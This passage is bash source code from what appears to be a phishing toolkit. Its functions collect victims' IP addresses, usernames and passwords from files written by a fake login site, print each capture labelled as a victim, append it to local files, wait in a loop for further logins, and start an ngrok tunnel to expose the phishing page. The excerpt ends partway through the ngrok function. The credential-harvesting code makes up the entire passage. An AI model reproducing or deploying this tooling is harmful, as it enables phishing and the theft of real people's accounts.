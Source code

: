 ## Get IP address
capture_ip() {
	IP=$(grep -a 'IP:' .server/www/ip.txt | cut -d " " -f2 | tr -d '\r')
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Victim's IP : ${BLUE}$IP"
	echo -ne "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}ip.txt"
	cat .server/www/ip.txt >> ip.txt
}

## Get credentials
capture_creds() {
	ACCOUNT=$(grep -o 'Username:.*' .server/www/usernames.txt | cut -d " " -f2)
	PASSWORD=$(grep -o 'Pass:.*' .server/www/usernames.txt | cut -d ":" -f2)
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Account : ${BLUE}$ACCOUNT"
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Password : ${BLUE}$PASSWORD"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}usernames.dat"
	cat .server/www/usernames.txt >> usernames.dat
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Next Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit. "
}

## Print data
capture_data() {
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit..."
	while true; do
		if [[ -e ".server/www/ip.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Victim IP Found !"
			capture_ip
			rm -rf .server/www/ip.txt
		fi
		sleep 0.75
		if [[ -e ".server/www/usernames.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Login info Found !!"
			capture_creds
			rm -rf .server/www/usernames.txt
		fi
		sleep 0.75
	done
}

## Start ngrok
start_ngrok() {
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Initializing... ${GREEN}( ${CYAN}http://$HOST:$PORT ${GREEN})"
	{ sleep 1; setup_site; }
	echo -ne "\n\n${RED}[${WHITE}-${RED}]${GREEN} Launching Ngrok..."
